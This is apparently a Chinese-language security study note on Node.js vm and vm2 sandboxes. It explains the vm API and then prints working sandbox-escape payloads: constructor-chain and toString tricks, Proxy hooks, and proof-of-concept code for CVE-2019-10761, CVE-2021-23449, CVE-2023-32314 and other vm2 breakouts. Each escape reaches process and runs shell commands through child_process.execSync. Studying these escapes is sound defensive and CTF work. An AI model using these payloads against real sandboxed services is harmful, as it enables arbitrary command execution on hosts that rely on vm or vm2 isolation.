

## vm 沙箱
### vm文档
https://nodejs.cn/api-v14/vm.htm
### vm沙箱常用函数
#### vm.runinThisContext(code)
`vm.runInThisContext()` 编译 `code`，在当前 `global` 的上下文中运行它并返回结果。 运行代码无权访问局部作用域，但可以访问当前 `global` 对象。

```js
const vm = require('vm');
let localVar = 'initial value';
  
const vmResult = vm.runInThisContext('localVar = "vm";');
console.log(`vmResult: '${vmResult}', localVar: '${localVar}'`);
// 打印: vmResult: 'vm', localVar: 'initial value'
  
const evalResult = eval('localVar = "eval";');
console.log(`evalResult: '${evalResult}', localVar: '${localVar}'`);
// 打印: evalResult: 'eval', localVar: 'eval'
```

#### vm.createContext([contextObject[, options]])
如果给定 `contextObject`，`vm.createContext()` 方法将准备那个对象，以便它可以用于调用 `vm.runInContext()` 或 `script.runInContext()`。 在此类脚本中，`contextObject` 将是全局对象，保留其所有现有属性，但也具有任何标准全局对象具有的内置对象和函数。 在 vm 模块运行的脚本之外，全局变量将保持不变。
```js
const vm = require('vm');

global.globalVar = 3;

const context = { globalVar: 1 };
vm.createContext(context);
vm.runInContext('globalVar *= 2;', context);

console.log(context);
// 打印: { globalVar: 2 }
console.log(global.globalVar);
// 打印: 3
```

从结果可以看出这个新的沙箱对象是独立于global外的一个独立作用域，而这个沙箱对象是这个作用域的全局对象，与global中的全局全局对象是不同的，相当于v8中的第二个global

#### vm.runInContext(code, contextifiedObject[, options])
`vm.runInContext()` 方法编译 code，在 `contextifiedObject` 的上下文中运行它，然后返回结果。 运行代码无权访问本地作用域。 `contextifiedObject` 对象必须之前已经使用 `vm.createContext(`) 方法上下文隔离化。
```js
const vm = require('vm');

const contextObject = { globalVar: 1 };
vm.createContext(contextObject);

for (let i = 0; i < 10; ++i) {
  vm.runInContext('globalVar *= 2;', contextObject);
}
console.log(contextObject);
// 打印: { globalVar: 1024 }
```
#### vm.runInNewContext(code[, contextObject[, options]])
`vm.runInNewContext()` 首先将给定的 `contextObject` 上下文化（如果作为 `undefined` 传入，则创建新的 `contextObject`），编译 code，在创建的上下文中运行它，然后返回结果。 运行代码无权访问本地作用域。
如果 `options` 是字符串，则指定文件名。
简单的说 `vm.runInNewContext = vm.createContext + vm.createContext`

### vm沙箱逃逸方法
#### 传递对象逃逸
```js
const vm = require("vm");

const y1 = vm.runInNewContext(`this.constructor.constructor('return process.env')()`);
//const y1 = vm.runInNewContext(`this.toString.constructor('return process')()`);
return y1.mainModule.require('child_process').execSync('whoami').toString()
console.log(y1);
```

这里的`this` 是传递给`runInNewContext`的对象，这个对象并不在沙箱环境中，接下来就和ssit相似的过程去获取构造器，以及构造器对象的构造器

>注意：数字，字符串，布尔这类都是primitive类型，在传递的过程中他们是将值传递过去而不是引用，所以是没有办法用来利用的

#### 外界调用函数触发
这个触发方式有些类似于PHP反序列化魔术方法的触发

```js
const vm = require('vm');
const script = `...`;
const sandbox = Object.create(null);
const context = vm.createContext(sandbox);
const res = vm.runInContext(script, context);
console.log('Hello ' + res)
```

exp

```js
const vm = require('vm');
const script = 
`(() => {
    const a = {}
    a.toString = function () {
      const cc = arguments.callee.caller;
      const p = (cc.constructor.constructor('return process'))();
      return p.mainModule.require('child_process').execSync('whoami').toString()
    }
    return a
  })()`;

const sandbox = Object.create(null);
const context = new vm.createContext(sandbox);
const res = vm.runInContext(script, context);
console.log('Hello ' + res)
```

在这个逃逸中用到了`arguments.callee.caller`，作用是返回函数的调用者
- arguments是一个**类数组对象**，在函数调用时创建，它存储的是实际传递给函数的参数，并不局限于函数定义时的参数列表。
- callee 是arguments对象的一个属性, 它是一个指向 arguments 对象所在函数的指针。
- 这个属性中保存着调用当前函数的函数的引用， 如果是在全局作用域中调用当前函数，它的值为 null。

在上面的exp中重构了函数`a`的toString方法，因此在下面`console.log('Hello ' + res)`的过程中触发了a函数实现了逃逸

#### proxy代理劫持
上面其实和DiceCTF 2023的jwtjail是相似的，但是jwtjail中外部没有能够用来触发toString和恶意重写的函数就通过`proxy`来劫持属性

利用`proxy`的钩子属性
- `get`，在沙箱外访问`proxy`的任意属性，即便这个属性不存在，钩子也会运行。
- `apply(target, thisArg, args)`，钩子能使代理以函数的方式被调用
	- `target` 是目标对象（函数是 JavaScript 中的对象）
	- `thisArg` 是 `this` 的值
	- `args` 是参数列表，这个擦部署列表是调用者传入的参数列表，列表的v8上下文不在vm内，可以用来返回`process`对象
## vm2沙箱
vm2沙箱出现了颠覆沙箱结构的安全漏洞，即将废弃。。。，这里就只放poc了
###  CVE-2019-10761
vm2版本<=3.6.10

这条链子获取沙箱外对象的方法是 在沙箱内不断递归一个函数，当递归次数超过当前环境的最大值时，我们正好调用沙箱外的函数，就会导致沙箱外的调用栈被爆掉，在沙箱内catch这个异常对象，就拿到了一个沙箱外的对象。
```js
"use strict";
const {VM} = require('vm2');
const untrusted = `
const f = Buffer.prototype.write;
const ft = {
        length: 10,
        utf8Write(){

        }
}
function r(i){
    var x = 0;
    try{
        x = r(i);
    }catch(e){}
    if(typeof(x)!=='number')
        return x;
    if(x!==i)
        return x+1;
    try{
        f.call(ft);
    }catch(e){
        return e;
    }
    return null;
}
var i=1;
while(1){
    try{
        i=r(i).constructor.constructor("return process")();
        break;
    }catch(x){
        i++;
    }
}
i.mainModule.require("child_process").execSync("whoami").toString()
`;
try{
    console.log(new VM().run(untrusted));
}catch(x){
    console.log(x);
}
```

### CVE-2021-23449
vm2版本<=3.9.4
原因是import()在JavaScript中是一个语法结构，不是函数，无法通过对require这类函数的处理来处理，本质上调用import()是没有通过沙箱的，是外部变量。

```js
let res = import('./foo.js')
res.toString.constructor("return this")().process.mainModule.require("child_process").execSync("whoami").toString();
```

### 劫持Symbol全局对象
```js
Symbol = {
  get toStringTag(){
    throw f=>f.constructor("return process")()
  }
};
try{
  Buffer.from(new Map());
}catch(f){
  Symbol = {};
  f(()=>{}).mainModule.require("child_process").execSync("whoami").toString();
}
```

vm2相比vm利用了es6新增的proxy特性，从而使用钩子拦截对`constructor和__proto__`这些属性的访问，细节上的改变
看[vm2实现原理分析-安全客 - 安全资讯平台 (anquanke.com)](https://www.anquanke.com/post/id/207283#h2-1)
总之vm2会为对象配置代理并初始化，如果对象是以下类型：


就会执行`Decontextify.instance()`函数然后这个函数抛出异常，因为这个异常是沙箱外的代码抛出的，所以在沙箱内拿到的异常对象是个外部对象

### Breakout in v3.8.3
```js
"use strict";
const {VM} = require('vm2');
const untrusted = '(' + function(){
	TypeError.prototype.get_process = f=>f.constructor("return process")();
	try{
		Object.preventExtensions(Buffer.from("")).a = 1;
	}catch(e){
		return e.get_process(()=>{}).mainModule.require("child_process").execSync("whoami").toString();
	}
}+')()';
try{
	console.log(new VM().run(untrusted));
}catch(x){
	console.log(x);
}
```

```js
"use strict";
const {VM} = require('vm2');
const untrusted = '(' + function(){
	try{
		Buffer.from(new Proxy({}, {
			getOwnPropertyDescriptor(){
				throw f=>f.constructor("return process")();
			}
		}));
	}catch(e){
		return e(()=>{}).mainModule.require("child_process").execSync("whoami").toString();
	}
}+')()';
try{
	console.log(new VM().run(untrusted));
}catch(x){
	console.log(x);
}
```
### CVE-2023-32314
vm2版本<3.9.17

payload
```JS
cmd = "'''+cmd+'''";
err = {};
const handler = {
getPrototypeOf(target) {
    (function stack() {
        new Error().stack;
        stack();
    })();
    }
};
        
const proxiedErr = new Proxy(err, handler);
try {
    throw proxiedErr;
} catch ({constructor: c}) {
    c.constructor('return process')().mainModule.require('child_process').execSync(cmd);
}
```
## 参考文章
https://xz.aliyun.com/t/11859

[[函数] arguments、callee、caller是啥？ - 掘金 (juejin.cn)](https://juejin.cn/post/7056285377899790372)

https://juejin.cn/post/6844904090116292616

[vm2实现原理分析-安全客 - 安全资讯平台 (anquanke.com)](https://www.anquanke.com/post/id/207283#h2-1)